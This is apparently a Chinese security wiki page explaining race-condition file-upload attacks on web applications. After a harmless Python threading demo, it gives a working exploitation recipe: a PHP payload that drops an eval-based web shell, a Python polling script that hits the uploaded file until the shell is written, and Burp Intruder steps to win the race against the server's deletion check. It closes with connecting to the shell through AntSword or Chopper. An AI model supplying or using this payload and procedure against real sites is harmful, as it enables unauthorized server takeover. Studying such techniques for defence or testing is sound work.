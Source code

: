 # 条件竞争

> 简单的说就是并行服务器并发执行了多个线程导致了意想不到的结果。同样的，WEB应用程序因为要为很多用户服务，势必要采用多线程，但是，如果种种原因导致线程间的同步机制没处理好，那么也就会导致非预期和条件竞争的漏洞。在Web安全中，大致就是检测文件后缀，不符合条件，就删除。这种方式。所以我们使用多线程并发去访问该文件。总会碰到在删除文件这个时间段之前访问到PHP文件。一旦成功访问，就说明写了一个Shell。 攻击流程逻辑大概是这样。上传shell-不断访问shell.php shell生成马.php--删除shellp.php

## 举例

> up.py

```python
#-*-coding:utf-8-*-
import threading
up = 0

def Run(threads_name):
    global up
    read_value = up
    print "up 值为-%s 或 %d" % (str(threads_name), read_value)
    up = read_value + 1

def main():
    threads = []
    for j in range(10):
        t = threading.Thread(target=Run,args=(j,))
        threads.append(t)
        t.start()
    for i in range(len(threads)):
        threads<i>.join()
    print("结束值为 %d" % (up,))

if __name__ == '__main__':
    main()

```

![](images/security_wiki/15906411303842.png)


## 实战中的利用

> 该系统拿到了后台地址跟管理员。后台的系统设置这里自带文件上传。但是不论是改后缀还是改格式，都会失败。

![](images/security_wiki/15906411383025.png)


**绕过** 1.生成shell.php和bp.py

![](images/security_wiki/15906411495769.png)


```php
<?PHP echo md5(1);fputs(fopen('shell.php','w'),'<?php @eval($_POST[qwer123])?>');?>

```

> bp.py

```python
# coding:utf-8
import requests
def main():
    i=0
    while 1:
        try:
            print(i,end='\r')
            a = requests.get("http://www.baidu.com/upload/shell.php")
            if "551207d090782423b5dce5b29c92c68d" in a.text:
                print("OK")
                break
        except Exception as e:
            pass
        i+=1
if __name__ == '__main__':
    main()

```

打开burp.上传马。截断。发送到Intruder模块。这时候Positions里不用选择任何参数。到Payloads内。

![](images/security_wiki/15906411669477.png)


Payloads选择为null，生成空字符。

![](images/security_wiki/15906411741830.png)


这时候运行bp.py，同时burpsuite开启astart attack

![](images/security_wiki/15906411832443.png)


偶尔会需要再提交一次。这时候请多试几次。直到bp.py显示OK为止。

![](images/security_wiki/15906411911108.png)


这时候已经成功了。用蚁剑菜刀就可以直接连接一句话了。

![](images/security_wiki/15906411996170.png)


